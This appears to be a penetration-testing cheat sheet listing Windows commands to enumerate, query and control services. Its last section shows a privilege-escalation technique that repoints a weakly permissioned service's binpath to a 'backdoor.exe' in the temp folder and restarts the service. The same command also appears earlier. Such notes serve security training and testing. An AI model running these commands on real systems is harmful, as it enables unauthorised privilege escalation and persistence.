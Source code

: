 
**List all services**
```bat
sc queryex type=service state=all #Command shell
Get-Service #Powershell
```


**Search for a services**
```bat
sc queryex type=service state=all | find /i "SERVICE_NAME: service_name"
Get-Service | Where-Object {$_.Name -like "*service_name*"}
```


**Status of a service**
```bat
sc query service_name
Get-Service service_name
```


**List of running services**
```bat
sc queryex type=service
Get-Service | Where-Object {$_.Status -eq "Running"}
```


**Modifying Service Properities**
```bat
sc config service_name binpath='c:\windows\temp\backdoor.exe'
```


**Start and stop Service**
```bat
net start/stop service_name
```


**Service info With winpeas**
```bat
.\winpeas.exe serviceinfo
```


### Insecure Service Permission
Find suspicious service and check configuration:
```bat
sc qc service_name
```

If the service has ```SERVICE_CHANGE_CONFI``` or ```SERVICE_ALL_ACCESS``` , then we can change it's binary path and restart the service for escalation:
```bat
sc config service_name binpath="c:\windows\temp\backdoor.exe"
net stop service_name
net start service_name
```
....**NOTE: if not able to restart the service then, we may need to restart the windows**

